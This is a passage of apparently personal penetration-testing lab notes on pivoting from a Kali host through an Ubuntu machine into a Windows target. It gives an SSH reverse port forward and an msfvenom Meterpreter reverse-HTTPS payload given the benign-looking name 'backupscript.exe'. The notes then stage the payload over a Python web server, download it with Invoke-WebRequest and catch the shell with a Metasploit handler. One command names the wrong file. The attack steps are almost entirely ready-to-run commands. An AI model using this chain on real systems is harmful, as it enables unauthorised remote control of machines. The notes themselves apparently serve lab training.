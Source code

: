 **Goal**: From the kali we will make a RDP connection with Meta_2, the windows machine. 

For that we will use the Victim's machine 1 as a reverse port forwarding. 

```shell-session
# Syntax
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN

# Translated to our case:
ssh -R 192.182.147.2:8080:0.0.0.0:8000 ubuntu@192.64.166.3 -vN
# We are using port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port
```

##### Obtain a reverse shell

Now we need to create a payload that is going to be triggered in the Victim's machine 2 (the windows one).  First we create it in our kali:

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.182.147.2 -f exe -o backupscript.exe LPORT=8080
```

Now we move this malicious file to the victim's machine 2:

```
# First we copy it to the Ubuntu machine from our Kali
 scp backupscript.exe ubuntu@192.64.166.3:~/

# Then we connect to the Ubuntu machine
ssh ubuntu@192.64.166.3
# And make the file executable
chmod +x backupjob
# And there we start a http server to serve the copied file to the windows machine:
python3 -m http.server 8123

# We have access to the windows machine, so we download the malicious file via web browser or even this command:
Invoke-WebRequest -Uri "http://192.64.166.3:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Now, we start a listener in our kali:

```
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 8000
run
```

Now we  execute the payload from the Windows target.

We will receive the reverse shell.

#### Module `portfwd` in metasploit
